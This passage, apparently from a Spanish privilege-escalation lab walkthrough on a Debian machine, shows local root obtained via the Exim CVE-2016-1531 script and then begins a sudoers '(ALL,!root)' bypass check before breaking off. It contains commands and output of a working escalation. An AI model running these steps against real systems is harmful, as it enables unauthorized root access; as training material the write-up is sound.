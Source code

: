 Vemos que es la version correcta y que tiene soporte para perl:

``` bash
user@debian:~$ head /etc/exim.conf
######################################################################
#                  Runtime configuration file for Exim               #
######################################################################

perl_startup = do '/usr/share/exim4/exigrey.pl'

# This is a default configuration file which will operate correctly in
# uncomplicated installations. Please see the manual for a complete list
# of all the runtime configuration options that can be included in a
# configuration file. There are many more than are mentioned here. The
```

Tiene el perl_startup activado.

``` bash
user@debian:~$ ls -lhaF /usr/sbin/exim-4.84-3 
-rwsr-xr-x 1 root root 942K May 13  2017 /usr/sbin/exim-4.84-3*
```

Y tiene el SUID activado, con lo cual deberia ser vulnerable.

``` bash
user@debian:~$ cd tools/exim/
user@debian:~/tools/exim$ ./cve-2016-1531.sh 
[ CVE-2016-1531 local root exploit
sh-4.1# whoami
root
```

Y somos root.

---
## Escalada por mala configuracion de sudoers

Otro ejemplo posible en esta máquina seria explotar el binario sudo.
Una cuenta Run as ALL es una cuenta configurada mediante /etc/sudoers tal que user ALL = (ALL,!root) NOPASSWD: ALL

Se lee como "Permito al usuario user ejecutar cualquier comando del sistema como cualquier usuario MENOS root".

Mediante:

``` bash
user@debian:~/tools/exim$ dpkg -l | grep -i sudo
ii  sudo                                1.7.4p4-2.squeeze.6          Provide limited super user privileges to specific users
```

Vemos que estamos en una version vulnerable.

Veamos:

``` bash
user@debian:~/tools/exim$ sudo -u root whoami
[sudo] password for user: 
Sorry, user user is not allowed to execute '/usr/bin/whoami' as root on debian.localdomain.
```
